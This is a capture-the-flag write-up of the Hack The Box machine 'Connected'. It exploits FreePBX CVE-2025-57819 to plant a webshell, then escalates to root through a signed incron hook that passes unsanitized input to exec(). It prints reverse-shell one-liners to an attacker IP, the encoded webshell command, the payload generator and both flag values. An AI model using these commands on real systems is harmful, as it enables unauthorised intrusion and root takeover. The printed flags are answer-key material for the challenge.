

# HTB: Connected

**Machine Write-up**

## Executive Summary

Connected is a Linux machine (CentOS) running a FreePBX 16.0.40.7 telephony administration suite over HTTP/HTTPS. The FreePBX web interface was vulnerable to **CVE-2025-57819** (CVSS 10.0, CISA KEV), where a pre-authentication file-inclusion quirk in FreePBX's module loader exposes an authenticated SQL injection sink to unauthenticated requests. A public watchTowr proof-of-concept used the resulting stacked SQL injection to schedule a malicious cron job that wrote a webshell to the web root, giving unauthenticated remote code execution and, from there, a reverse shell as the `asterisk` user.

Privilege escalation to root abused an **incron**-based root hook mechanism that FreePBX installs by default: a signed, root-executed helper script (`sysadmin_manager`) watches specific spool directories and, on file creation, dispatches to per-module "hook" scripts based on the filename. One of the legitimately installed and signed hooks, `api/hooks/fwconsole-commands`, decodes an attacker-suppliable, base64/gzip-encoded parameter and passes it unsanitized into an `exec()` call. Because the hook file itself is validly signed, `sysadmin_manager` will run it with arbitrary attacker-controlled parameters, allowing full command execution as root without needing to forge or bypass any signature check.

---

## Phase 1: Reconnaissance & Enumeration

### Network Scanning

An initial nmap scan against the target revealed three open services:

```bash
nmap -p 1-10000 <Machine_IP> -sC -sV -O -A

PORT    STATE SERVICE   VERSION
22/tcp  open  ssh       OpenSSH 7.4 (protocol 2.0)
80/tcp  open  http      Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-title: Did not follow redirect to http://connected.htb/
443/tcp open  ssl/https Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
```

Port 80 redirected to `http://connected.htb/`, so the domain was added to the local hosts file. The SSL certificate's common name, `pbxconnect`, and OS fingerprinting pointing at a CentOS/Linux host were early hints that the box was built around a PBX/telephony stack.

### Web Enumeration

Browsing to `connected.htb` served a FreePBX front-end, exposing the standard **FreePBX Administration**, **User Control Panel**, **Operator Panel**, and **Get Support** portal tiles, with the FreePBX version printed in the page footer:


*Figure 1 — FreePBX portal landing page (connected.htb), confirming FreePBX 16.0.40.7 in the footer.*

FreePBX 16.0.40.7 fell within the affected range for **CVE-2025-57819**, a FreePBX authentication-bypass and SQL-injection-to-RCE chain publicly disclosed by watchTowr Labs.

---

## Phase 2: Initial Foothold — FreePBX Auth Bypass + SQLi to RCE (CVE-2025-57819)

### Root Cause

CVE-2025-57819 (CVSS 10.0, added to CISA's KEV catalog) combines two flaws in FreePBX's core module loader. First, FreePBX's custom class loader will pre-authentication `include()` any `.php` file located under `admin/modules/`, which lets an unauthenticated request reach code paths that are meant to require a logged-in session — including the `endpoint` module's AJAX handler. Second, that handler passes its `brand` parameter into a database query without sanitizing it, giving an unauthenticated attacker a **stacked SQL injection** into the FreePBX/Asterisk database.

That injection is enough to reach RCE outright: rather than only reading data, an attacker can `INSERT` a row directly into the `sysadmin` module's `cron_jobs` table, scheduling a job (run once per minute by cron) whose command base64-decodes a small PHP payload and writes it out as a `cmd`-parameter webshell under the web root — no valid FreePBX credentials, admin account, or authenticated session ever required.

### Exploitation

A public watchTowr proof-of-concept/detection script for CVE-2025-57819 was run against the target. The script fires the pre-auth SQL injection to schedule the malicious cron job, then polls until the next cron tick has written the webshell to disk:

```bash
python3 watchTowr-vs-FreePBX-CVE-2025-57819.py -H http://connected.htb

[+] FreePBX CVE-2025-57819 Detection Artifact Generator started
[+] Sending exploit request
[+] Waiting 2 minutes for DAG script to be created
[+] VULNERABLE - webshell found: http://connected.htb/this-is-an-ioc-not-actually-watchTowr-qizvzorun2.php?cmd=hostname
```

The script confirmed the target was vulnerable and dropped a `cmd`-parameter webshell at a predictable path. A reverse-shell one-liner was base64-encoded and passed to the planted webshell's `cmd` parameter:

```bash
echo 'bash -i >& /dev/tcp/<Attacker_IP>/<Attacker_PORT> 0>&1' | base64
# -> YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xODYvNDQ0NCAwPiYx

http://connected.htb/this-is-an-ioc-not-actually-watchTowr-qizvzorun2.php?cmd=echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNS4xODYvNDQ0NCAwPiYx%20|%20base64%20-d%20|%20bash
```

With a listener running, requesting that URL returned a shell as the `asterisk` service account:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.186] from (UNKNOWN) [<Machine_IP>] 53576
bash: no job control in this shell

[asterisk@connected html]$ cat /home/asterisk/user.txt
8ac96236ce09eee4eca93757d39cbe3f
```

The user flag was read directly from `/home/asterisk/`, confirming the foothold.

---

## Phase 3: Privilege Escalation — Incron-based Sysadmin Hook Abuse

### Enumeration with linpeas

`linpeas.sh` was transferred to the box over a local Python HTTP server and executed from the `asterisk` shell:

```bash
[asterisk@connected html]$ wget http://<Attacker_IP>:8000/linpeas.sh
[asterisk@connected html]$ chmod +x linpeas.sh
[asterisk@connected html]$ ./linpeas.sh
```

Among the findings, linpeas flagged an **incron** configuration watching several Asterisk/FreePBX spool directories, with matching triggers running as root:

```bash
[asterisk@connected html]$ cat /etc/incron.d/*
/var/spool/asterisk/sysadmin/vpnget IN_CLOSE_WRITE /usr/sbin/sysadmin_openvpn -d
/var/spool/asterisk/sysadmin/intrusion_detection_stop IN_CLOSE_WRITE /etc/init.d/fail2ban stop
...
/usr/local/asterisk/incron IN_CLOSE_WRITE /usr/bin/sysadmin_manager --local $#
/var/spool/asterisk/incron IN_MODIFY,IN_ATTRIB,IN_CLOSE_WRITE /usr/bin/sysadmin_manager $#
```

Any file created under `/var/spool/asterisk/incron/` triggers `/usr/bin/sysadmin_manager <filename>` as root.

### Understanding `sysadmin_manager`

The helper script itself was world-readable:

```bash
[asterisk@connected html]$ cat /usr/bin/sysadmin_manager
```

Its logic: it takes the triggering filename, splits it as `module_hook` or `module.hook.params`, looks up `admin/modules/<module>/module.sig`, verifies the module's GPG signature against a hardcoded key whitelist, confirms the corresponding `hooks/<hook>` file's SHA-256 hash matches the value recorded in the (validly signed) `module.sig`, and — if every check passes — runs:

```php
system("$hookfile $params");
```

Critically, `$params` (anything after the second dot in the filename) is passed straight through to the hook script with no further validation, as long as the hook file itself is a legitimate, already-signed file belonging to an installed module.

### Abusing the Signed `api` Module Hook

The `api` module ships a hook, `admin/modules/api/hooks/fwconsole-commands`, that is legitimately signed and therefore passes `sysadmin_manager`'s integrity check:

```bash
[asterisk@connected html]$ cat /var/www/html/admin/modules/api/hooks/fwconsole-commands
#!/usr/bin/php -q
<?php
...
if (isset($argv[1])) {
        $b = str_replace('_', '/', $argv[1]);
        $settings = @json_decode(gzuncompress(@base64_decode($b)), true);
        if (is_array($settings)) {
                $command = $settings[0];
                $txn_id = $settings[1];
        }
}
...
$cmd = "/usr/sbin/fwconsole $command 2>&1";
$result = exec($cmd, $output, $return);
```

This hook expects its single argument to be a gzip-compressed, JSON-encoded `[command, txn_id]` array, base64-encoded with `/` swapped for `_` (so it survives being used as a filename), and it feeds the decoded `command` value straight into a shell `exec()` call — with no sanitization. Since `sysadmin_manager` will happily invoke this *already-signed* hook with **any** attacker-chosen `$params`, an attacker only needs to encode a malicious command in the expected format and drop a file named `api.fwconsole-commands.<encoded_payload>` into the watched incron directory to get that command executed by root.

A reverse-shell command was encoded to match the hook's expected `[command, txn_id]`/gzip/base64 format:

```python
python3 -c "
import base64, zlib, json

# Command injected into the expected JSON array structure
cmd = 'help; bash -i >& /dev/tcp/10.10.15.186/9001 0>&1'

# Compress using zlib, encode to Base64, and replace '/' with '_' for filename safety
payload = base64.b64encode(zlib.compress(json.dumps([cmd, 't1']).encode())).decode().replace('/', '_')
print(f'api.fwconsole-commands.{payload}')
"
```

The resulting encoded string was used as the filename suffix, and the file was created (empty content — only the filename matters, since `sysadmin_manager` parses the request from the incron-provided path, not the file's contents) inside the watched directory to fire the `IN_CLOSE_WRITE` trigger:

```bash
nc -lvnp 9001
listening on [any] 9001 ...

[asterisk@connected html]$ touch "/var/spool/asterisk/incron/api.fwconsole-commands.eJyLVspIzSmwVkhKLM5Q0M1UsFNT0E9JLdMvSS7QNzTQAyFTPUMLM31LAwNDBQM7NUMlHQWlEkOlWADV6g5w"
```

Incron detected the write, invoked `sysadmin_manager` as root, which validated the `api` module's signature, confirmed the `fwconsole-commands` hook's hash, and executed it with the encoded payload as its argument — decoding to the reverse-shell command and running it via `exec()`:

```bash
nc -lvnp 9001
connect to [10.10.15.186] from (UNKNOWN) [<Machine_IP>] 58392
bash: no job control in this shell

[root@connected /]# cat /root/root.txt
33584664e7473ad007390690beadd552
```

The connection returned a root shell, and `root.txt` was read directly from `/root/`, completing full compromise of the machine.

---

## Techniques Summary

| Technique | Description | Impact |
|---|---|---|
| FreePBX Pre-Auth Class Loader (CVE-2025-57819) | Core class loader `include()`s any `.php` file under `admin/modules/` without authentication, exposing the `endpoint` module's AJAX handler to unauthenticated requests | Reached an otherwise-authenticated SQL injection sink pre-auth |
| Stacked SQL Injection via `brand` Parameter | Unsanitized `brand` parameter allowed a stacked `INSERT` into the `sysadmin` module's `cron_jobs` table | Scheduled a root-run cron job to write a webshell into the web root |
| Cron-Dropped Webshell (watchTowr PoC) | Public watchTowr PoC automated the injection and polled until cron decoded and wrote the `cmd`-parameter webshell to disk | Unauthenticated remote code execution, initial foothold as `asterisk` |
| linpeas Enumeration | Automated enumeration surfaced an incron configuration watching Asterisk/FreePBX spool directories with root-level triggers | Identified the incron → `sysadmin_manager` privilege-escalation path |
| Signed-Hook Parameter Injection | `sysadmin_manager` verifies only that a hook file belongs to a validly signed module, then runs it with attacker-controlled filename-derived parameters | Arbitrary parameters passed into the legitimately signed `api/fwconsole-commands` hook |
| `fwconsole-commands` Unsanitized `exec()` | The hook decodes a base64/gzip/JSON-encoded parameter and passes the resulting `command` value straight into a shell `exec()` call | Arbitrary command execution as root via a crafted incron-triggering filename |
